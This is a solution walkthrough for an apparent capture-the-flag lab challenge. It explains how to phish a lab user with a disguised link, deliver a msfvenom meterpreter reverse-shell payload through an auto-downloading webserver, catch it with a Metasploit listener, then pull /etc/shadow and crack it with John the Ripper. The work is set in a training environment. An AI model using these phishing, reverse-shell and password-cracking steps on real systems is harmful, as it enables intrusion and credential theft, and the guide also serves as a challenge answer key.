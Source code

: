 # Shadowunboxin

*Solution Guide*

## Overview

In *Shadowunboxin*, players perform a series of exploitations and cracking to answer the challenge questions.

## Question 1

*What is the value found inside token1.txt on the target machine? (/home/user/token1.txt)*

Use the network mail server to exploit the user machine with a phishing email.

1. From your Kali system, browse to `https://mail.merch.codes` and log in using the provided credentials for `customer@merch.codes`. 

2. Compose your phishing email to `user@merch.codes`. Include the hyperlink to `http://order15887.pdf` that appears like a filename.

![](./img/c36-img05.JPG)

3. You can send the email immediately and trigger the grading check later, or wait to send the email until the webserver and listener are set up and running. We recommend sending immediately so you do not wait for the mail server to receive it later in the challenge.

4. Create the payload you would like to host on the webserver. Your IP and port could differ as long as you configure the machine as needed. Do not use port 80 with `10.5.5.138` because this is where your webserver is hosted.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.5.5.138 LPORT=8080 -f elf > payload.elf
```

![](./img/c36-img03.JPG)

5. Set up a simple Python HTTP server to host a payload using a malicious html template to autorun upon access.

6. Download the provided Python webserver template from: `https://challenge.us/files`.

7. Modify the template to point to the location of the payload you created. In our case, `/home/user/`.

![](./img/c36-img09.jpg)

8. Run the webserver with `sudo python3 webserver.py`.

![](./img/c36-img02.JPG)

You can test the webserver and page by browsing to it locally. You can do so by opening a browser and heading to `http://10.5.5.138`. Doing so should automatically download your payload file to the **Downloads** folder--if you set up everything properly.

Finally, set up a Metasploit listener to match the payload.

9. From a terminal, run `msfconsole`. Then, use the following parameters (or modify according to the payload you created):

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.5.5.138
set LPORT 8080
set ExitOnSession false
exploit -j
```

10. Grade the challenge at `https://challenge.us`. Click **Grade Challenge**. The grading check provides different notifications depending on the state of your environment:

- If no emails are found addressed to `user@merch.codes`, you will be notified.
- If the emails to `user@merch.codes` are not coming from `customer@merch.codes`, you will be notified.
- If the emails meet the above conditions, but do not contain a viable link to `http://order15887.pdf`, you will be notified.
- If *all* the above conditions are met, the grading check will trigger a script on the `user` system that downloads and executes your payload file for 30 seconds. If this does not result in a connection, verify your payload and listener are set up properly. Try the grading check again when the 30-second timeout ends. No need to resend the email if you received this message because the email has already been validated.

11. Once you have a session in the Meterpreter terminal, type `sessions -i 1` to interact with it. 

12. You will land in the **Downloads** folder for `user`, since that is where the payload was executed.

13. Browse to `/home/user`, view the contents of the directory, and view the **token1.txt** file (`cat token1.txt`).

## Question 2

*What is the value found inside token2.txt.gpg on the target machine?*

1. Still inside your Meterpreter session, search for the **token2** file:

```bash
search -f *token2*
```

The result shows a file in `/home/admin/` called `token2.txt.gpg`. Upon inspection, we can see this is an encrypted file. You know from reading the "Background" in the challenge guide that intelligence reports say  the admin user has a habit of password reuse and poor complexity. 

We will now try cracking the password stored in the `/etc/shadow` file.  After checking the contents of `/etc/pam.d/common-password` we can see that passwords are stored with sha512 encryption. This is vulnerable to tools like John the Ripper combined with wordlists.

2. First, download the `/etc/shadow` and `/etc/passwd` files as well as the token file.

![](./img/c36-img07.png)

3. Next, combine those files so that John can read them and set John to work. We provided you with a custom wordlist: `wordlist.txt` that you will use. You can download it at `challenge.us/files` 

```bash
unshadow passwd.txt/passwd shadow.txt/shadow > passwords.txt
john --wordlist=/home/user/Downloads/wordlist.txt passwords.txt
```

![](./img/c36-img08.JPG)

4. The program runs. After a few minutes the password appears in the results. 

5. Use the password to open the encrypted file: `gpg -d token2.txt.gpg` which displays the answer to Question 2.

## Question 3

*What is the password of the user 'admin'?*

1. Enter the password for user `admin` cracked from the shadow file from the procedure for Question 2.
